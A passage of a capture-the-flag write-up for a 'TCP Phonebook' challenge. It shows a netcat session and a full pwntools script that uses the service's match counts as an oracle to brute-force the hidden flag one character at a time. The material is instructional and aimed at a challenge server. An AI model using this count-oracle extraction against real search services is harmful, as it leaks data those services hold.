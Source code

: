 If we input a valid search field, the server waits for another input which is our search query (here, our inputs are `"favourite_animal"` and `"dog"`):

```
nc ws-chall.umisc.info 2002
TCP Phonebook V0.1.0
Quit with -quit-
Available search fields:
first_name
last_name
email
gender
favourite_animal
address
catch_phrase
company
favourite_animal
dog
Matches: 1

```

So we can search through a specific search field and the service will return how many matches are in the database. Assuming the flag is in one of the fields, we can check each one and see when the search for `"MISCCTF{"` returns a positive match. From there, we can bruteforce each letter of the flag format to eventually recover the full flag.

A scripting programming language like Python or Bash will be very helpful for this challenge. The solution script uses [pwntools](https://github.com/Gallopsled/pwntools), a Python library that helps to make the process of interacting with TCP servers easier (amongst other things).

Solution script:

```python
from pwn import *

# set up the connection
conn = remote('ws-chall.umisc.info', 2002)

# discard the first 3 lines
[conn.recvline() for _ in range(3)]

# find the correct search field
search_fields = conn.recv().splitlines()
sf = b''
for s in search_fields:
    conn.sendline(s)
    conn.sendline(b'MISCCTF{')
    if conn.recvline().decode().split()[1] != '0':
        sf = s
        break

alphabet = '0123456789abcdefghijklmnopqrstuvwxyz{}_ABCDEFGHIJKLMNOPQRSTUVWXYZ'
flag = 'MISCCTF{'

i = 0
while flag[-1] != '}':
    guess = flag + alphabet[i]
    conn.sendline(sf)
    conn.sendline(guess.encode())
    if conn.recvline().decode().split()[1] != '0':
        flag = guess
        print(flag)
        i = 0
    else:
        i += 1
```
